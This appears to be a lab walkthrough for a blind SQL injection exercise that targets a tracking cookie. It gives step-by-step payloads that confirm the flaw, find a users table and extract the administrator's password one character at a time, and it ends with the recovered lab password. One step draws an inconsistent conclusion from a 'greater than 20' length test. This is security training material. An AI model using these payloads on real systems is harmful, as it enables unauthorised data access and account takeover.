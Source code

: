 # Lab 11 - Blind SQL injection with conditional responses

> ###  Vulnerable parameter - `tracking cookie`

### End Goals:
1. Enumerate the password of the administrator
2. Log in as the administrator user

## Analysis:

1) Confirm that the parameter is vulnerable to blind SQLi

select tracking-id from tracking-table where trackingId = 'RvLfBu6s9EZRlVYN'

-> If this tracking id `exists` -> query returns value -> Welcome back message
-> If the tracking id `doesn't exist` -> query returns nothing -> no Welcome back message

select tracking-id from tracking-table where trackingId = `'RvLfBu6s9EZRlVYN' and 1=1--'`
-> TRUE -> Welcome back

select tracking-id from tracking-table where trackingId = `'RvLfBu6s9EZRlVYN' and 1=0--'`
-> FALSE -> no Welcome back

2) Confirm that we have a users table

select tracking-id from tracking-table where trackingId = `'RvLfBu6s9EZRlVYN' and (select 'x' from users LIMIT 1)='x'--'`
-> users table exists in the database.

3) Confirm that username administrator exists users table

select tracking-id from tracking-table where trackingId = 'RvLfBu6s9EZRlVYN' and (select username from users where username='administrator')='administrator'--'
-> administrator user exists

4) Enumerate the password of the administrator user

`select tracking-id from tracking-table where trackingId = 'RvLfBu6s9EZRlVYN' and (select username from users where username='administrator' and LENGTH(password)>20)='administrator'--'`
-> password is exactly 20 characters

`select tracking-id from tracking-table where trackingId = 'RvLfBu6s9EZRlVYN' and (select substring(password,2,1) from users where username='administrator')='a'--'`

1 2 3 45 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20
52rqbjtjpa749cy0bv6s


script.py url



